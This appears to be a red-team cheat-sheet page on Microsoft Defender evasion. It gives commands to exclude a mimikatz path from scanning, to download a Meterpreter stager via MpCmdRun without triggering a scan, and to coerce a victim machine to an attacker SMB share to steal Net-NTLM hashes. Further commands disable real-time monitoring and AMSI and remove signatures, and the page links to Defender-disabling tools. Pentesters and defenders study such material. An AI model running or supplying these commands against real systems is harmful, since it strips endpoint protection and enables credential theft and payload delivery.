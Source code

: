 # Defender

Add path to exclusions:

```
PS > $mimi = "C:\Users\snovvcrash\music\mimi\x64\mimikatz.exe"
PS > Add-MpPreference -ExclusionPath $mimi -AttackSurfaceReductionOnlyExclusions $mimi
```

Download stager without triggering Defender to scan it:

```
PS > .\MpCmdRun.exe -DownloadFile -Url http://127.0.0.1/met.exe -Path C:\Users\snovvcrash\music\met.exe
```

Coerce the victim machine to reach the attacker (to steal Net-NTLM):

```
Cmd > C:\PROGRA~1\WINDOW~1\MpCmdRun.exe -Scan -ScanType 3 -File '\\10.10.13.37\share\file'
```




## Disable Defender

- [https://github.com/mandiant/commando-vm#pre-install-procedures](https://github.com/mandiant/commando-vm#pre-install-procedures)
- [https://github.com/swagkarna/Defeat-Defender/blob/main/Defeat-Defender.bat](https://github.com/swagkarna/Defeat-Defender/blob/main/Defeat-Defender.bat)
- [https://github.com/APTortellini/DefenderSwitch](https://github.com/APTortellini/DefenderSwitch)
- [https://github.com/dosxuz/DefenderStop](https://github.com/dosxuz/DefenderStop)
- [http://www.wxxy-sec.com/?p=154](http://www.wxxy-sec.com/?p=154)

- gpedit.msc > *Administrative Templates* > *Windows Components* > *Microsoft Defender Antivirus* > *Real-time Protection* > *Turn off real-time protection* > *Enabled* ✔
- gpedit.msc > *Administrative Templates* > *Windows Components* > *Microsoft Defender Antivirus* > *Turn off Microsoft Defender Antivirus* > *Enabled* ✔

Disable real-time protection (proactive):

```
PS > Set-MpPreference -DisableRealTimeMonitoring $true
```

Disable scanning all downloaded files and attachments, disable AMSI (reactive):

```
PS > Set-MpPreference -DisableIOAVProtection $true
```

Remove signatures (if Internet connection is present, they will be downloaded again):

```
PS > cd "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0"
PS > .\MpCmdRun.exe -RemoveDefinitions -All
Or
Cmd > "%PROGRAMFILES%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```
